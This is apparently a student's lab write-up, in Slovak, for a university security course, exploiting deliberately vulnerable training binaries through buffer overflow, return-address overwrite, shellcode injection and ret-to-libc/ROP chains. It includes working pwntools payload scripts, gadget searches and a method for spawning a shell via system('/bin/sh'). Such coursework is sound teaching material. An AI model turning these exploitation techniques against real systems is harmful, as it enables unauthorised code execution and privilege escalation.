


# Cvičenie 5 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 5.1 Buffer overflow

- Vo svojom domovskom adresári, v podadresári `lesson1` nájdete tri súbory:

- `001-exercise-buffer-overflow.c` (zraniteľná aplikácia)
- `001-exercise-buffer-overflow-32bit` a `001-exercise-buffer-overflow-64bit`: dve skompilované verzie tejto aplikácie

- Program je kompilovaný s prepínačmi: `gcc -O0 -fno-stack-protector -o program program.c`, pre 32-bitovú verziu ešte s `-m32`.

- Program má zraniteľnosť *buffer overflow*. Dosiahnite vypísať "Special entry!" bez použitia špeciálneho hesla.


Na toto mi stačí prepísať hodnotu premennej na stacku. Keďže aj z definície štruktúry je vidno, že najprv sú inicializované polia a až následne **is_special**, to znamená, že viem prepísať hodnotu premennej, tým, že zapíšem do polí viac znakov ako je alokované.


V gdb som si nastavil breakpoint tesne za načítavanie do polí a vypísal si obsah stacku cez x/100x $esp. Polia som naplnil, podľa toho, koľko miesta mali alokované.


Červenou je pole **surname**, oranžovou **login**, žltou **username**, zelenou **webpage** a v modrom rámiku je hodnota premennej is_special.

Keď dám v tomto prípade continue, vzpíše sa regular entry.


Keď som však zapísal do polí viac znakov ako bolo alokované, prepísala sa hodnota v is_special a program vypísal special entry. Do pola webpage som zadal 15 znakov a teraz je hodnota v modrom rámiku 44444444.


Keď pustím program ďalej, vypíše sa special entry.


## 5.2 Jednoduchý stack overflow (bez potreby robenia shellkódu)

 - Ten istý program. Dokážete získať práve superadmina a spustiť nedostižnú funkciu `unreachable` prepisom návratovej adresy na zásobníku?


 V tomto kroku som potreboval zistiť, kde nachádza return pointer pre funkciu pokus. Tento pointer chcem prepísať tak, aby ukazoval na adresu funkcie unreachable. Zo stránky https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html som si vygeneroval pattern, ktorý som vložil do pola webpage. Potom som program spustil a sledoval, kde mi vyhodí error.

 

 Error nastal na hodnote 0x39614138, čo je po prekonvertovaní hodnota 8Aa9, čo znamená, že offset od začiatku pola po return pointer je 26, kebyže pattern zadám na prvom poli (surname) a ostatné polia nevyplním, offset je 97.

 

 Na vykonanie útoku som použil python2 nasledovne:

 ```bash 
 python2 -c 'print "\x41" * 28 + "\x42" * 16 +
"\x43" * 27 + "\x44" * 10 + "\x90" * 16 + "\x50\x65\x55\x56"' > payload_1_32
 ```

 Postupne som napĺňal všetky polia a potom som pridal 16xNOP aby som sa dostal k return pointeru. Výstup som uložil do súboru a súbor som nahral na server pomocou scp

 

 V modrom je prepísaný return pointer na funkciu unreachable


### 64 bit verzia

Postup je vpodstate rovnaký, jediné, čo sa mení, sú adresy. Nevedel som použiť pattern generator na zistenie offset, čiže som si to musel vyrátať ručne.


V modrom je return pointer, viem to zistiť tak, že funkcia pokus sa vracia do main a posledné čo funkcia main volá je **return(pokus)**. Takže viem dať **disassemble main** a pozerať na inštrukciu po volaní funkcie pokus


Keď sa pozriem naspäť na stack, vidím že posledná hodnota v poli webpage je na adrese ...e350 a return pointer začína na adrese ...e368, to znamená, že `offset = e367 - e350 = 17 (hex) = 23 (dec)`

Exploit tým pádom vyzerá nasledovne:

```bash
python2 -c 'print "\x41" * 28 + "\x42" * 16 + "\x43" * 27 + "\x44" * 10 + "\x90" * 23 + "\x50\x54\x55\x55\x55\x55\x00\x00"' > payload_1_64
```


## 5.3 Kompletný stack overflow

- Naštudujte si `002-exercise-stack-overflow.c`. Skompilované 32-bitové a 64-bitové verzie obsahujú zraniteľnosť. Budete musieť určiť offset a pripraviť si shellkód. Dokážete získať obsah flagu `002-flag/flag.txt` ?

- Ak nie, ale dokážete získať obsah súboru ktorý bežne môžete vidieť, zdokumentujte aspoň to a ozvite sa na Slacku po ďalšie rady. Sú dve cesty, ako ďalej.

- Programy sú kompilované s prepínačmi `gcc -O0 -fno-stack-protector -static -z execstack -no-pie -ggdb -O0`, pre 32-bitovú verziu ešte s `-m32`.


Offset k return pointer-u som si zistil znova pomocou pattern generátora, pričom mi vyšlo, že offset je 272 (0Aj1). Return pointer som potreboval zmeniť tak, aby ukazoval mimo stack frame funkcie **pokus**. To znamená, že som sa potreboval dostať k return pointeru a od return pointeru začať vkladať shellcode.


Tu je return pointer v červenom a shellcode v zelenom. Medzi return pointerom a shellcode som si spravil NOP sled, aby som nemusel presne trafiť začiatok shellcode. 

Na vykonanie exploitu som použil nástroj pwntools a na tvorbu shellcode funkciu **shellcraft**.

```py
from pwn import *


padding = b"\x41" * 272
eip = p32(0xffffd470)
shellcode = asm(shellcraft.setreuid(1031) + shellcraft.cat('002-flag/flag.txt'))
nop = b"\x90" * 100

exploit = padding + eip + nop + shellcode

with open ('payload', 'wb') as f:
        f.write(exploit)
```

V kóde sa najprv nastaví EUID na 1031, čo je id používateľa, ktorý má práva k súboru a potom sa spraví cat 002-flag/flag.txt


## 5.4 Ret-to-libc

- Bonusová výzva: viete miesto vlastného shellkódu použiť návrat do libc? Nemusí to zobraziť práve flag, stačí keď to spraví niečo originálne. Libc sme pribalili :D.

### 32bit

Bonus som robil podľa tohto obrázka, kde je na stacku najprv system call, ktorý nahrádza return pointer, za system call býva exit call, ale v tomto prípade si tam môžem dosadiť vpodstate hocičo a nemalo by to prekážať v exploite. A nakoniec sú argumenty pre system(), to znamená, že stavba útoku bude podobná ako pri shellcode injection. 



Na útok som opäť použil python pwntools

```py
from pwn import *


padding = b"\x90" * 272
eip = p32(0x08051ff0) # system()
nop = b"\x90" * 4 #  exit()
buff_pointer = p32(0xffffd490)
nop_1 = b"\x90" * 40
string = b"id && ls -la && cat 002-flag/flag.txt"

exploit = padding +  eip + nop + buff_pointer + nop_1 + string

with open ('payload_bonus', 'wb') as f:
        f.write(exploit)
```

V tomto príklade najprv vykonám id, potom ls -la a potom cat 002-flag/flag.txt


V zelenom je volanie system(), v červenom adresa stringu, kde sa nachádzajú príkazy pre system() a v modrom má byť pôvodne exit(), ale nahradil som ho NOP inštrukciami. (V gdb by tento exploit nefungoval, lebo adresa argumentov je nastavená na d490, ciže aby to fungovalo v gdb, musel by som zmeniť adresu na d470)


### 64bit

Pre 64bit útok funguje trochu inak. Útok som realizoval podľa tohto obrázka.


Pri 64bit programe treba nahradiť return pointer inštrukcious **pop rdi; ret**. Pop rdi; ret spraví to, že pushne do registrov to čo je práve navrchu stacku (napríklad pointer na string alebo /bin/sh) a posunie sa na ďalšiu inštrukciu, čo je system(). Po system() nasleduje exit(), ale to iba v prípade, že chceme aby sa program korektne ukončil, inak tam môže ísť hocičo. 

Pre vykonanie tohto útoku som potreboval nasledujúce informácie:

- offset k rip
- adresu inštrukcie pop rdi; ret
- adresu kde sa nachádza string /bin/sh
- adresu system()
- adresu v pamäti, kde viem vykonať vlastné príkazy mimo /bin/sh
- adresa ret inštrukcie


**Offset k rip**

Offset k rip som zisťoval rovnako ako v predošlých úlohách. Zistil som, že hodnota rip je **0x00000000004018b1**. 


Potom som pamäť naplnil "A" a vyrátal si koľko mi ešte chýba k rip. Takže offset je 280


**Adresa inštrukcie pop rdi; ret**

Túto adresu som zistil použitím ROPgadget.

```bash
ROPgadget --binary 002-exercise-stack-overflow-64bit | grep "pop rdi ; ret"
```



Adresa je **0x0000000000401f5f**

**Adresa na vlastné príkazy** 

Vlastný string s príkazmi sa musí nachádzať niekde za return pointer, tak som si zvolil adresu **0x7fffffffe2a0**, na ktorú bude ukazovať pointer pre string.


**Adresa string /bin/sh**

Túto adresu som získal z gdb pri behu programu.

Najprv som použil príkaz **info proc mappings**, ktorý mi vypíše adresný priestor binárky. Potom som použil príkaz **find** aby som našiel string.


```find 0x400000, 0x4f2000, "/bin/sh"```

Find hľadá string /bin/sh od adresy 0x400000 po adresu 0x4f2000.


**Adresa inštrukcie ret**

V tomto prípade na to, aby sa príkazy vykonali v 64bit binárke, musia byť zarovnané podľa 16 bitov, to znamená, že potrebujem pridať padding medzi offset a rip, tak aby sa rip vpodstate posunul na nový riadok. Inštrukciu ret som našiel opäť s ROPgadget, tentokrát aj s použitím regexu na odfiltrovanie nepotrebných výsledkov.

```bash
ROPgadget --binary 002-exercise-stack-overflow-64bit | grep -E '^0x[0-9a-f]+ : ret$'
```


Adresa inštrukcie ret je **0x000000000040101a**.


Keď som mal všetky tieto informácie, zostrojil som python script, ktorý vygeneruje payload.

```py
from pwn import *


padding = b"\x41" * 280
ret = p64(0x000000000040101a) # return instruction
pop_rdi = p64(0x0000000000401f5f) # pop rdi; ret instruction
system = p64(0x000000000040b860) # system call
string = b"id && ls -la" # system argument
bin = p64(0x000000000049b005) # pointer to /bin/sh string
buffer = p64(0x7fffffffe2a0 + 64) # pointer to arguments string
nop = b"\x90" * 8 # padding to arguments

# Exploit with given command
exploit = padding + ret + pop_rdi + buffer + system + nop + string

#Exploit with /bin/sh
#exploit = padding + ret + pop_rdi + bin + system

with open('payload_bonus64', 'wb') as f:
        f.write(exploit)
```


Toto je exploit na spustenie shell, v modrom je adresa inštrukcie **ret**, v zelenom adresa **pop rdi; ret** a v červenom adresa **/bin/sh** (ak nechcem shell je tam iný pointer na string obsahujúci argumenty pre system() ), pod zeleným ramom je adresa **system()**


Na to aby sa mi zobrazil shell potrebujem program spustiť takto:

```bash
(cat payload_bonus64 && cat) | ./002-exercise-stack-overflow-64bit
```

Prvý cat zoberie obsah súboru a vloží ho ako input a druhý cat číta z stdin a cez pipe komunikuje s programom.


V prípade, že si chcem spustit vlastný command, musel som pridať do premennej buffer ešte offset 64, lebo gdb pracuje s adresami trochu inak ako keď je program spustený normálne.


Stack v tomto prípade vyzerá takto:

**modrá** - ret inštrukcia (rip)
**zelená** - pop rdi; ret inštrukcia
**červená** - pointer na string (funguje pre spustenie z terminal, započítaný aj offset +64)
**žltá** - system()
**oranžová** - argument / string pre system

